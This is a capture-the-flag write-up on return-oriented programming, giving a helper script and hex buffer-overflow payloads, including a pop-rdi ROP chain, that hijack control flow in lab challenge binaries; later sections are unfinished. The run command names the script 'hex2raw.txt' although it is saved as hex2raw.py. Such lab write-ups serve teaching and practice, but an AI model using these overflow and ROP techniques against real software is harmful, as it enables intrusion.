


# CTFhehe (write-up)
## ROP
### Setup
#### GDB
Use GDB, install peda
#### Ropper
Install using the following command
```
pip install ropper
```
#### Python Script for Raw Text
Create a script `hex2raw.py`
```
import binascii
import sys

def main():
	cmd_arg = sys.argv
	payload = b""
	
	with open("input.txt", "r") as src:
		raw = src.read()
		raw = raw.replace(" ", "")
		raw = raw.replace("\r", "")
		raw = raw.replace("\n", "")
		payload += binascii.unhexlify(raw)
		payload += b"\n"
		
	sys.stdout.buffer.write(payload)

if __name__ == "__main__":
	main()
```
Create `input.txt` in the same directory as the script
#### How to Run
Open terminal, execute
```bash
python hex2raw.txt | /challenge/xxxx
```
### Level 1.0


win() address = 0x401a84

Input the following hex to overwrite buffer and return address
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
84 1a 40 00 00 00 00 00
```

Result: 

Flag get!

### Level 2.0


Do ROP chaining, overwrite buffer followed by two return addresses.


Addresses of win_stage_1 & win_stage_2 (GDB):


Input hex:
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00

00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00

33 21 40 00 00 00 00 00
e0 21 40 00 00 00 00 00
```
Result:

Flag get!

### Level 3.0


Address for win_stage_x:


For each win_stage_x, parameter is passed to edi. To 'insert' argument values, "pop rdi" gadget (x64) is needed.




Input hex:
```
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a
0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a 0a

0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b 0b
0b

93 29 40 00 00 00 00 00
01 00 00 00 00 00 00 00

1c 22 40 00 00 00 00 00

93 29 40 00 00 00 00 00
02 00 00 00 00 00 00 00

da 23 40 00 00 00 00 00

93 29 40 00 00 00 00 00
03 00 00 00 00 00 00 00

f8 22 40 00 00 00 00 00

93 29 40 00 00 00 00 00
04 00 00 00 00 00 00 00

ba 24 40 00 00 00 00 00

93 29 40 00 00 00 00 00
05 00 00 00 00 00 00 00

a0 25 40 00 00 00 00 00
```
Result:

Flag get!


### Level 4.0
TBA
## Format String
### Level 1.0
TBA
### Level 1.0
TBA
### Level 1.0
TBA
